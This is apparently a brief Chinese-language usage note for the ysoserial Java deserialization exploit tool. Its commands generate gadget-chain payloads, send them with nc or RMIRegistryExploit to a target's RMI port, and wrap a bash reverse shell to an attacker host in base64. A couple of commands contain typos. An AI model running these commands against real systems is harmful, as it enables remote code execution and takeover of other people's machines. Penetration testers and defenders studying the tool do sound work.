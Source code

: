 ## 简介

针对Java的反序列化漏洞利用工具，利用已知的gadgets（利用链），再根据想要在靶机上执行的命令，从而构造出一个特制的payload。

下载地址https://github.com/frohoff/ysoserial.git

## 用法

```bash
java -jar ysoserial.ja //查看可用的gadgets
```

```bash
$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin   //生成payload写入.bin中
$ nc 10.10.10.10 1099 < groovypayload.bin  //向远程主机的RMI服务的端口传输.bin文件中的内容

```

```bash
$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe   //直接向远程主机的RMI服务的端口传输payload，myhost为靶机ip或域名

```

其中要执行的命令最好是原先的反弹shell命令的base64编码形式，例如

```bash
bash -i >& /dev/tcp/ip/port 0>&1  //改为
bash -c {echo,对上行命令base64编码的结果}|{base64,-d}|{bash.-i} //执行的第一个{}命令的输出作为第二个{}中命令的输入，然后再将第二个{}命令结果的输出作为第三个{}命令的输入，最后输出到tty
```

